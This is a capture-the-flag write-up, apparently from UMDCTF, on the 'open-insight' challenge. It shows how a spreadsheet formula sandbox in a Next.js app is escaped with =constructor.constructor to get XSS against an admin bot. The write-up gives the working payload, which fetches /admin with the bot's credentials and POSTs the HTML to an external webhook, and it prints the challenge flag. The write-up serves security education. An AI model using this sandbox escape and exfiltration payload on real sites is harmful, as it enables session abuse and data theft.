








## open-insight  



We are provided with two webpages, one being an admin bot endpoint, which already hints at an XSS challenge.  

Both webpages are implemented with Next.js. The former allows us to create workbook sheets.  



The bot webpage allows us to report sheet IDs, which perfectly mirrors a typical XSS chall.  



In the HTML source of the main webpage, we can find the source file that handles workbook editing.  



Inside, we can find this chunk of code, which reveals an arbitrary code execution vector.  

```js
let o=r.slice(1);try{let e,r,l=(e={Math,JSON:{parse:JSON.parse,stringify:JSON.stringify},Number,String,Boolean,RegExp,parseInt,parseFloat,isNaN,isFinite,document:function(){if("u">typeof document)return new Proxy(document,{get(e,t){let r=document[t];return null===r?null:"object"==typeof r?void 0:"function"!=typeof r?r:void 0}})}(),cells(e){if("string"==typeof e)return t.get(e)}},r=new Proxy(e,{has:()=>!0,get(e,t){if(t!==Symbol.unscopables&&t in e)return e[t]}}),Function("S",`with (S) { "use strict"; return (${o}); }`)(r));return{kind:"value",value:l,display:a(l)}}catch(t){let e=t instanceof Error?t.message:String(t);return{kind:"error",message:e,display:`#ERR: ${e}`}}
```

The sheets allow the use of Excel-style formulas, which are passed into the sandbox function below for evaluation.  

Although the input isn't validated, the sandbox defines a custom context with only the predefined formula whitelist as variables.  

```js
Function("S",`with (S) { "use strict"; return (${o}); }`)(r));
```

To bypass this, we can use `=constructor.constructor()` to get access to the global scope and achieve arbitrary code execution.  

```js
=constructor.constructor('alert(1)')()
```



Since this is essentially a blind web, we need to figure out where the flag is.  

In the home page, we can find an `/admin` endpoint.  



Accessing it with our normal account gives a `404` error, which hints that we need admin privileges to access it.  



We can craft a payload that will request `/admin` using the admin bot's credentials, then exfiltrate the entire HTML source to our webhook.  

```js
=constructor.constructor('fetch("/admin",{credentials:"include"}).then(r=>r.text()).then(d=>fetch("https://mcxsikq.request.dreamhack.games",{method:"POST",body:d}))')()
```

Our webhook will receive the exfiltrated webpage when we report the sheet, and we can find the flag inside.  



Flag: `UMDCTF{r0ll_y0ur_0wn_s4nit1zat1on}`